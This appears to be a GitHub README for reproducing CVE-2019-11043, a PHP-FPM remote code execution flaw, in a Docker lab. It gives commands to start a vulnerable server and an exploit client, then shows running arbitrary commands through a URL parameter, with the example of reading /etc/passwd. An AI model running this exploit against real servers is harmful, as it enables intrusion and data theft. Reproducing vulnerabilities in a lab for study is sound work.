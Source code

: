 # CVE-2019-11043

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-11043>


## PoC / Exploit
* <https://github.com/ypereirareis/docker-CVE-2019-11043>
 

## Environment used

* Ubuntu 20.04 LTS

## Requirements
* Web browser 

## Reproduction
* Server
    - Docker version
        ```shell script
        docker run --rm -p 8080:80 -it simaofsilva/cve-2019-11043
        ```
    - Script version
        ```shell script
        sudo bash installation.sh
        (sudo nginx &) && (sudo /usr/local/sbin/php-fpm &) && sudo tail -f /var/log/nginx/*.log
        ```  

* Client
    - Docker version
      ```shell script
      docker run --rm -it simaofsilva/cve-2019-11043-client "http://SERVER_IP:8080/script.php"
      ```
      Open a browser and go to <http://SERVER_IP:8080/script.php?a=><b>CMD</b> where 
      CMD is terminal command. <br>
      
    - Script version
      ```shell script
      docker run --rm -it simaofsilva/cve-2019-11043-client "http://SERVER_IP:80/php-fpm/script.php"
      ```
      Open a browser and go to <http://SERVER_IP:80/php-fpm/script.php?a=><b>CMD</b> where 
      CMD is terminal command. <br>

&emsp;&emsp; E.g.: <http://127.0.0.1:8080/script.php?a=cat%20/etc/passwd>

<p align="center">
  <img src="https://raw.githubusercontent.com/ypereirareis/docker-CVE-2019-11043/master/img/exploit.jpg">
</p>    

Note: It is recommended to refresh the page if the command's output is not showing. 

## References
* <https://github.com/neex/phuip-fpizdam>
